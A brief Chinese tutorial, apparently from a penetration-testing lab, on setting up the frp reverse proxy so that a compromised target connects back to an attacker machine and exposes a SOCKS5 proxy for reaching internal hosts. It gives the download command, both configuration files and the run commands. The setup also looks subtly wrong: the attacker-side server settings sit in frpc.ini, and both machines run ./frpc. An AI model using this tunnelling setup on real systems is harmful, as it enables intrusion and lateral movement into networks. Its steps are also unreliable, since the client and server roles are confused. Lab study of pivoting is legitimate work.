


frp - 高性能反向代理

在攻击机和靶机上都需要下载,拉不下来可以用在本地下载,然后scp到虚拟机

wget https://github.com/fatedier/frp/releases/download/v0.44.0/frp_0.44.0_linux_amd64.tar.gz

tar -zxvf frp_0.44.0_linux_amd64.tar.gz

然后cd进目录,需要修改frpc.ini 这个文件
vim frpc.ini  

攻击机器的改成:
```
[common]
bind_port = 7000
```

靶机改成:
```
[common]
server_addr = 192.168.168.10  # 这里要改成攻击机的ip!!!!!!!!!!!!!!!!!!!!!!
server_port = 7000

[socks_proxy]
type = tcp
remote_port = 1080
plugin = socks5
```

接下里攻击机和靶机同时运行 ./frpc -c frpc.ini
可以看到这样的:


看到这有 success  了,说明成功

然后在攻击机上再打开一个终端,curl 192.170.84.3 可以看到页面回显